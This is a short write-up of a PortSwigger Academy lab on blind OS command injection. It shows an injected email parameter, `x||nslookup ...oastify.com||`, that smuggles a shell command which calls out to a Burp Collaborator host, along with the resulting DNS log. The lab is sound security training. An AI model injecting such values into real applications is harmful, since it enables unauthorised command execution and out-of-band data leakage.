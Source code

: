 # Blind OS command injection with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that is accessible. However, it is possible to trigger out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2.  Go to the Collaborator tab and click **Copy to clipboard** to copy a unique Burp Collaborator payload to your clipboard. 
3. In Repeater, modify the email parameter, changing it to something like: `email=x||nslookup+x.xnoboj2tlk2af759ugfh7f66fxlo9fx4.oastify.com||`
3. Send.
4. In Collaborator, click **Poll now**, and view the Description:

```text
The Collaborator server received a DNS lookup of type A for the domain name x.xnoboj2tlk2af759ugfh7f66fxlo9fx4.oastify.com.  The lookup was received from IP address 3.251.128.130:39343 at 2023-Feb-04 14:29:35.231 UTC
```

## Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _
